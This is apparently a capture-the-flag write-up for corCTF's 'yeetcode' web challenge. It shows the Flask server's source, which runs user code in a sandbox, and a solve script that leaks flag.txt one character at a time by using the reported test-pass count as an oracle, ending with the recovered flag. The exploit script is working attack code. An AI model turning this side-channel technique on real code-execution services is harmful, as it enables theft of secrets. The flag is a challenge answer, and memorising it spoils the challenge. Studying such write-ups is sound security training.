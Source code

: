 ![image](https://user-images.githubusercontent.com/44206101/130418065-5c10125e-6ddb-4429-aae6-5c2ee50fe2d2.png)
# First look
Having read the challenge, i easily saw ```Flag is at ./flag.txt```, that means the flag is stored in ```flag.txt```

# Audit
### yeet.py
```python
from flask import Flask, render_template, request, session
import random, epicbox, os

# docker pull 

epicbox.configure(
    profiles=[
        epicbox.Profile('python', 'python:3.9.6-alpine')
    ]
)

app = Flask(__name__)
app.secret_key = os.urandom(16)
flag = open('flag.txt').read()

@app.route('/')
def yeet():
    return render_template('yeet.html')

@app.route('/yeet')
def yeetyeet():
    return render_template('yeetyeet.html')

@app.route('/yeetyeet', methods=['POST'])
def yeetyeetyeet():
    if 'run' in session and session['run']:
        return {'error': True, 'msg': 'You already have code running, please wait for it to finish.'}
    session['run'] = True
    code = request.data
    tests = [(2, 3, 5), (5, 7, 12)]

    for _ in range(8):
        a, b = random.randint(1, 100), random.randint(1, 100)
        tests.append((a, b, a + b)) # tests co 10 cap gia tri
    cmd = 'from code import f\n'
    outputs = []
    for case in tests:
        a, b, ans = case
        cmd += f'print(f({a}, {b}))\n'
        outputs.append(str(ans))
    files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
    limits = {'cputime': 1, 'memory': 16}
    result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

    if result['exit_code'] != 0:
        session['run'] = False
        return {'error': True, 'msg': 'Oops! Your code has an error in it. Please try again.'}
    actual = result['stdout'].decode().strip().split('\n')

    passes = 0
    fails = 0
    for i in range(len(outputs)):
        if outputs[i] == actual[i]:
            passes += 1
        else:
            fails += 1

    session['run'] = False
    return {'error': False, 'p': passes, 'f': fails}

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000)
```
# Exploit
### solve.py
```python
import requests

flag = ''
letters = "1234567890rtopasedfghjklzxcvbnm}{_!"

for i in range(33):
    for char in letters:
        data = f"def f(a ,b):\n\tfile_handler = open('flag.txt', 'r')\n\tstring_in_file = file_handler.read().replace('\\n', '')\n\tstring_in_file = string_in_file[{i}:]\n\tif '{char}' == string_in_file[:1]:\n\t\treturn a + b\n\telse:\n\t\treturn 0"
        r = requests.post('https://yeetcode.be.ax/yeetyeet', data=data)
        r_json = r.json()
        p_check = r_json['p']
        if p_check == 10:
            flag += char
            print(flag)
            break
print(flag)
```
#### Run solve.py:
Result: ```
c
co
cor
corc
corct
corctf
corctf{
corctf{1
corctf{1m
corctf{1m4
corctf{1m4g
corctf{1m4g1
corctf{1m4g1n
corctf{1m4g1n3
corctf{1m4g1n3_
corctf{1m4g1n3_c
corctf{1m4g1n3_cp
corctf{1m4g1n3_cp_
corctf{1m4g1n3_cp_g
corctf{1m4g1n3_cp_g0
corctf{1m4g1n3_cp_g0l
corctf{1m4g1n3_cp_g0lf
corctf{1m4g1n3_cp_g0lf_
corctf{1m4g1n3_cp_g0lf_6
corctf{1m4g1n3_cp_g0lf_6a
corctf{1m4g1n3_cp_g0lf_6a3
corctf{1m4g1n3_cp_g0lf_6a31
corctf{1m4g1n3_cp_g0lf_6a318
corctf{1m4g1n3_cp_g0lf_6a318d
corctf{1m4g1n3_cp_g0lf_6a318df
corctf{1m4g1n3_cp_g0lf_6a318dfe
corctf{1m4g1n3_cp_g0lf_6a318dfe}
corctf{1m4g1n3_cp_g0lf_6a318dfe}
```
flag: `corctf{1m4g1n3_cp_g0lf_6a318dfe}'

